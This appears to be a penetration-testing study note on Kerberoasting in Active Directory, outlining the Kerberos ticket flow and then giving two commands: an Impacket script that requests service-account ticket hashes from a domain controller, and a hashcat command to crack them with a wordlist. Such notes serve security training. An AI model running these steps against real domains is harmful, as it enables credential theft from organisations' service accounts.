 - takes advantage of service accounts (SPN - Service Principal Name)
1. Request TGT w/ NTLM hash
2. Receive TGT encrypted w/ krbtgt hash
3. Request TGS for Server (Presents TGT)
4. Receive TGS encrypted w/ server account hash ==Part we care about ==

- KDC (Key Distriubution Center) aka DC

**Goal of Kerberoasting:**
	Get TGS and decrypt server's account hash

Step 1: Get SPNs, Dump Hash
```
python GetUsersSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

Step 2: Crack the hash
```
hashcat -m 13100 kerberoast.txt rockyou.txt
```
